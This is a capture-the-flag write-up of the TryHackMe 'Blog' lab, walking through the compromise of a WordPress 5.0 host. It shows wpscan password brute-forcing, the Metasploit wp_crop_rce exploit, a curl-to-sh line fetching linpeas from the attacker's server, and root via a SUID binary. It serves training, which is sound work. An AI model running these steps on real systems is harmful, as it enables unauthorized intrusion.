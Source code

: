 Blog-tryhackme ;22 JUL 2021  

machine ip : 10.10.116.161

## SCANNING 

### basic scanning 

└─$ nmap -sV -v 10.10.116.161 -oN nmap/intial

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

```

ENUMRATION
==========
smb service
------------
└─$ smbclient -L 10.10.116.161                                                                                                                                                      
`  BillySMB        Disk      Billy's local SMB Share `

└─$ smbclient -N //10.10.116.161/BillySMB

```
 Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
 tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
 check-this.png                      N     3082  Tue May 26 14:13:43 2020

```
[*] download them all and check them 

$ steghide extract -sf Alice-White-Rabbit.jpg  

wrote extracted data to "rabbit_hole.txt".
```
$ cat rabbit_hole.txt                                                                                                 
You've found yourself in a rabbit hole, friend.

```

http service 
--------------
[*] searching for directories .

└─$ gobuster dir -u "http://10.10.116.161/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  | tee gobuster.txt
```
/rss                  (Status: 301) [Size: 0] [--> http://10.10.116.161/feed/]
/login                (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.116.161/feed/]  
/atom                 (Status: 301) [Size: 0] [--> http://10.10.116.161/feed/atom/]
/wp-content           (Status: 301) [Size: 319] [--> http://10.10.116.161/wp-content/]
/admin                (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]         
/wp-includes          (Status: 301) [Size: 320] [--> http://10.10.116.161/wp-includes/]
/dashboard            (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]          
```

## note :
because blog.thm is a local webpage and hence we are in the same network with the machine we need to provide ip and name in the /etc/hosts "dns" . so we can access the page .

10.10.116.161    blog.thm

[*] let's look at this page :
http://blog.thm/wp-login.php
### via wappalyzer extenstion i know it is wordpress 5.0 

Billy Joel : not a valid user name .

[*] using wpscan to enumrate users 

" it just get names from the web page 'comments'.'posts','etc' so some can be wrong "

─$ wpscan --url blog.thm --enumerate u | tee wpscan-users   


let's try results to verify :       

```
kwheel  "works"
bjoel   "works"
karen Wheeler XX
Billy joel XX

```
[*] hence bjoel works at IT field it doesn't seem his password will be so easy to crack so let's try kwheel first and see results !



[*] using wpscan to crack kwheel password 

└─$ wpscan --url blog.thm -U kwheel  -P /usr/share/wordlists/rockyou.txt               2 ⨯

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1     

```

### we can also use hydra and provide it with the failed message .

when password is wrong our post request response is :

log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1

EXPLOITATION
=============
goal is to upload a php revere shell and get in .
no plugins or themes options in the page :( .
let's try metasploit module .

multi/http/wp_crop_rce  # fits the wordpress 5.0 rce .
### set password ,username , rhost= blog.thm ,lhost  then exploit .


================== WE GOT A SESSION ================

Server username: www-data (33)

to get a stable shell :
$shell
$python -c "import pty ; pty.spawn('/bin/bash')"
[*]seaching for user.txt
/home/bjoel/user.txt
```
You won't find what you're looking for here.

TRY HARDER
```
"it doesn't work :( as a submission"

pdf file :
---------
```
This letter is to inform you that your employment with Rubber Ducky Inc. will end effective immediately
on 5/20/2020.

```
so it seems a /media/usb relevant but we need to be root to access it .

PRIVILEGE ESCALATION
====================
$sudo -l
we need our password so not helpful .

$find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null

let's check this :
-rwsr-xr-x 1 root root            136808 Oct 11  2019 /snap/core/8268/usr/bin/sudo#need password
-rwsr-sr-x 1 root root              8432 May 26  2020 /usr/sbin/checker

https://gtfobins.github.io/#checker #no results :(

try to run it 
/usr/sbin/checker
Not an Admin

linpeas
========
on my side :
-------------
(kali㉿kali)-[~/Tryhackme/blog/linpeas]
└─$ python3 -m http.server  

on victim side :
-----------------

$curl "http://10.8.203.221:8000/linpeas.sh" | sh

doesn't help alot but we know a user exists .

bjoel:x:1000:1000:Billy Joel:/home/bjoel:/bin/bash


download this checker file and try to get any info using cutter or IDA .
meterpreter > download /usr/sbin/checker .

cutter results :

![cutter](https://user-images.githubusercontent.com/67979878/126591875-65cf2723-f362-4e08-82fc-b60e690c2717.PNG)

we can see it checks in /bin/bash if varirable admin is not 0x00 . 
so let's try set value before executing it  .
$export admin=admin

$/usr/sbin/checker 

=============== NOW WE ARE ROOT ===============

$cat /media/usb/user.txt

$cat /root/root.txt

